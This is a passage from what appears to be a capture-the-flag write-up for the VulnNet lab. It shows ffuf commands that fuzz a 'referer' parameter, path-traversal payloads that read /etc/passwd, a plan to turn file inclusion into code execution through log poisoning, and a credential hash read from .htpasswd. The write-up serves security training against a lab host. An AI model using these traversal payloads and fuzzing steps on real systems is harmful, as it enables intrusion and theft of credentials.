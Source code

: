   * ```index__7ed54732.js``` - this script seems to be setting up a chat service for the domain "broadcast.vulnnet.thm"
  * ```index__d8338055.js``` - this script is setting up functionality for an affiliate program service

* From the second script, we have a part of code ```"http://vulnnet.thm/index.php?referer="``` - this indicates we have a parameter 'referer' to test. We can try for fuzzing different values here:

  ```sh
  ffuf -w /usr/share/seclists/Fuzzing/UnixAttacks.fuzzdb.txt -u "http://vulnnet.thm/index.php?referer=FUZZ"
  # we can start with any wordlist
  # I chose this since web server is running Ubuntu
  # but ideally you would want to check with wordlists of multiple fuzzing types
  
  # run this once to identify the size to be filtered with

  ffuf -w /usr/share/seclists/Fuzzing/UnixAttacks.fuzzdb.txt -u "http://vulnnet.thm/index.php?referer=FUZZ" -fw 1689
  # we get a few hits
  ```

* On fuzzing values for parameter 'referer', we get a few hits like:

  * ```/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd```
  * ```/../../../../../../../../../../etc/passwd```
  * ```/./././././././././././etc/passwd```
  * ```/etc/passwd```

* The above indicates a LFI vulnerability. To confirm this, on navigating to <http://vulnnet.thm/index.php?referer=/etc/passwd>, we can see the file contents on viewing page source

* We can leverage LFI to get RCE - some techniques to be considered include PHP filters, PHP wrappers, remote file inclusion and log poisoning

* For our foothold, we can use log poisoning. Firstly, we need to find the path to a set of logs that can be poisoned:

  ```sh
  # we can use different wordlists from the LFI section
  # filtering with same number of words as before
  ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u "http://vulnnet.thm/index.php?referer=FUZZ" -fw 1689

  ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://vulnnet.thm/index.php?referer=FUZZ" -fw 1689
  ```

* Some of the files found that we can read include ```/etc/apache2/apache2.conf```, ```etc/apache2/envvars```, ```/var/www/html/.htaccess```

* Furthermore, ```/etc/apache2/apache2.conf``` shows the server root is set to default ```/etc/apache2``` - we can search for sensitive files like ```.htaccess``` and ```.htpasswd``` here

* Reading the file ```/etc/apache2/.htpasswd``` gives us username & hash - "developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0"
